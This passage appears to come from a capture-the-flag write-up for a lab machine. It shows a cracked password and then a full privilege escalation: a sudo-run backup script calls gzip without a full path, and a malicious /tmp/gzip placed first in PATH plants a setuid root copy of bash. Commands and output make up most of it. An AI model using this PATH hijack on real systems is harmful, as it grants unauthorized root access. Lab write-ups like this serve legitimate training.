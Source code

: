 The hash is crackable: `ilovecody112235!`

## PE

There's a script that can be run as `root` via Sudo, and it's vulnerable to a Path Injection. I can replace `gzip` with my own malicious script by placing it first in the `PATH` environmental variable.

```console
$ ssh m4lwhere@t
m4lwhere@t's password:
...

Last login: Fri Jun 18 01:09:10 2021 from 10.10.10.5
m4lwhere@previse:~$ cat user.txt
ec5d4a..
m4lwhere@previse:~$ sudo -l
[sudo] password for m4lwhere:
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
m4lwhere@previse:~$ ls -l /opt/scripts/access_backup.sh
-rwxr-xr-x 1 root root 486 Jun  6  2021 /opt/scripts/access_backup.sh
```

Here's `/tmp/gzip`:

```text
#!/bin/bash
cp /bin/bash /tmp/x; chown root:root /tmp/x; chmod 6777 /tmp/x
```

```text
m4lwhere@previse:~$ chmod +x /tmp/gzip
m4lwhere@previse:~$ export PATH="/tmp:$PATH"
m4lwhere@previse:~$ which gzip
/tmp/gzip
m4lwhere@previse:~$ sudo /opt/scripts/access_backup.sh
m4lwhere@previse:~$ ls -l /tmp/x
-rwsrwsrwx 1 root root 1113504 May 14 20:41 /tmp/x
m4lwhere@previse:~$ /tmp/x -p
x-4.4# cat /root/root.txt
b65f3d...
```
